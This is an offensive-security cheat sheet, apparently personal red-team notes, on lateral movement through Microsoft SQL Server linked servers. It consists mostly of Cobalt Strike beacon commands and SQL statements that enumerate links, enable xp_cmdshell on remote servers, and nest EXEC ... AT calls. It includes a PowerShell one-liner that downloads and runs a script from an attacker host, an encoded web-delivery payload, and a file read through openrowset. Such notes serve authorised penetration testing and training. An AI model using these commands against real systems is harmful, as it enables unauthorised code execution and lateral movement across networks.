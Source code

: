 #### Links

CS

```
beacon> powershell Get-SQLServerLinkCrawl -Instance 'sql-1.vault.io,1433'
[...]

beacon> powershell Get-SQLServerLinkCrawl -Instance 'sql-1.vault.io,1433' -Query 'select @@version' | select Instance, CustomQuery | % { $_ | Add-Member NoteProperty 'QueryResult' $($_.CustomQuery[0]); $_ } | fl
```

Client (Hiedi)

```
# show links
SELECT * FROM master..sysservers

# execute queries on link
SELECT * FROM OPENQUERY("sql02.vault.external", 'select @@servername')

# Enable xp_cmdshell 
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql02.vault.io]

EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql02.vault.io]

SELECT * FROM OPENQUERY("sql02.vault.io", 'select * from sys.configurations where name = ''xp_cmdshell''')

# Enable xp_cmdshell **via** openquery
SELECT 1 FROM openquery("dc01", 'select 1; EXEC sp_configure ''show advanced options'', 1; reconfigure')

# This can also be nested (potentially coming back to the own server with different permissions)
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT SERVER1') AT SERVER2
EXEC ('EXEC (''xp_cmdshell ''''powershell.exe -exec bypass -c "iex(iwr http://<ip>/run.txt -usebasicparsing)"'''';'') AT SERVER1') AT SERVER2

SELECT 1 FROM openquery("dc01", 'select 1; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure')

# scripted web delivery
SELECT * FROM OPENQUERY("sql02.vault.io", 'select @@servername; exec xp_cmdshell ''powershell -enc [...snip...]''')

# get command output
# run Get-MpThreatDetection | Out-File -FilePath C:\Windows\Temp\out.txt and get output
SELECT * FROM OPENQUERY("sql02.vault.io", 'select * from openquery("sql01.vault.io", ''select * from openrowset(bulk N''''C:\Windows\Temp\defenderlog.txt'''', single_nclob) as contents'')')
```

#### Resources
- [Attacking SQL Server CLR Assemblies](https://www.netspi.com/blog/technical/adversary-simulation/attacking-sql-server-clr-assemblies/)
- [Hacking SQL Server Stored Procedures – Part 1: (un)Trustworthy Databases](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)
- [Hacking SQL Server Stored Procedures – Part 2: User Impersonation](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/)
- [Hacking SQL Server Stored Procedures – Part 3: SQL Injection](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/)
- [Lateral movement through Microsoft SQL Server links](https://hackmag.com/security/lateral-movement/)